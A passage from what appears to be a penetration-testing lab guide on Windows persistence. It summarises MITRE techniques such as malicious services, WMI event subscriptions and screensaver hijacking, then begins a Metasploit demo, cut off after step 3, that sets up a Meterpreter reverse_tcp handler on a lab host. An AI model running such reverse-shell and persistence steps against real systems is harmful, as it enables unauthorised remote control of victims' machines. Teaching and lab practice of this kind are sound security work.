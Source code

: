 - **MITRE technique: [Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)**
  - In this technique, a pen tester can modify a service to run an executable on startup. 
    - Services are run as SYSTEM by default. 
    - Even though services can be abused for privilege escalation, they can also be used for persistence.

- **MITRE technique: [Event Triggered Execution: Windows Management Instrumentation Event Subscription](https://attack.mitre.org/techniques/T1546/003/)**
  - This technique leverages Windows Management Instrumentation (WMI), a way of managing Windows machines, to perform an action once a specific event in Windows is triggered. 

  - For example, whenever a logon event is created in Windows (which occurs when a user logs in), use WMI to start a new process (which could be a payload). 

- **MITRE technique: [Event Triggered Execution: Screensaver](https://attack.mitre.org/techniques/T1546/002/)**
  - This technique allows the pen tester to replace the executable that is used to display the screensaver with a malicious executable or payload. 

These are just some examples of persistence techniques in Windows, and this isn't a comprehensive list.
	
#### Windows Persistence Demo

To demonstrate persistence using malicious services, let's use `msfvenom` to generate a Meterpreter payload, transport it to the Windows machine, and register a service using it. 

- This requires an active shell as SYSTEM on the Windows 10 machine. Note: The first six steps listed detail how to open a Meterpreter shell on the Windows 10 machine if you do not have an active session already.

1. Log in to Kali and open a terminal. Start Metasploit with the following command:

     - `msfconsole`
	 
    **Note:** If you already have Metasploit open and running, kill any jobs that may be running in the background with `jobs -K`.

2. Load the `multi/handler` module with the following command:

	 - `use exploit/multi/handler`
	
3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`
